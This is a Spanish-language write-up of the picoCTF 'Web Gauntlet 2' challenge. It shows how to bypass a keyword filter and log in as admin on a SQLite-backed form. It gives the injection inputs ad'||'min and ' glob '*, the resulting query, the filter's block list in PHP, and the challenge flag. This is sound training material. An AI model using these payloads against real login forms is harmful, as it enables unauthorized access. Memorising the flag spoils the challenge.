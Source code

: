 # Web Gauntlet 2
![Descripcion del CTF](img/description.png)

## Descripción
This website looks familiar... Log in as admin Site: [http://mercury.picoctf.net:35178/](http://mercury.picoctf.net:35178/) Filter: [http://mercury.picoctf.net:35178/filter.php](http://mercury.picoctf.net:35178/filter.php)

## Resolucion
Nos dan dos enlaces, el primero a un formulario de login:

![Web](img/web1.png)

Y otro que nos lleva a otra página llamada 'filter.php' con una lista de caracteres:

![Web](img/web2.png)

Si intentamos iniciar sesión como 'admin' y contraseña 'root' nos encontramos con el siguiente error:

![Web](img/web3.png)

Esto quiere decir que hemos utilizado una palabra que ha sido filtrada, en este caso 'admin'.

Si probamos con un usuario y contraseña que no se filtre, como por ejemplo 'ad' y 'asd' se nos mostrará la consulta SQLite que está realizando php:

![Web](img/web4.png)

```
SELECT username, password FROM users WHERE username='ad' AND password='asd' 
```

Como estamos en SQLite, tenemos que buscar alguna forma de proporcionar la palabra admin de forma que en php no se reconozca, pero en SQLite sí.

En este caso podemos usar '||', que nos sirve para concatenar (juntar) dos cadenas de caracteres y obtener admin en el usuario.

Para obtener la contraseña, necesitaremos modificar la query para que nos de acceso si la información que proporcionamos coincide con cualquier contraseña almacenada en la base de datos.

Para ello podemos usar: ' glob '*

'glob' busca en la tabla la expresión regular proporcionada y '*' hace que cualquier cadena de caracteres coincida con ella.

Entonces usaremos como usuario: ad'||'min
Y como contraseña: 'glob '*

Creando así la query:

```
SELECT username, password FROM users WHERE username='ad'||'min' AND password='' glob '*' 
```

![Web](img/web5.png)

Acudiendo a [http://mercury.picoctf.net:35178/filter.php](http://mercury.picoctf.net:35178/filter.php), encontraremos el siguiente código php:

```
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}
?>
```

Obteniendo así la flag: 'picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}'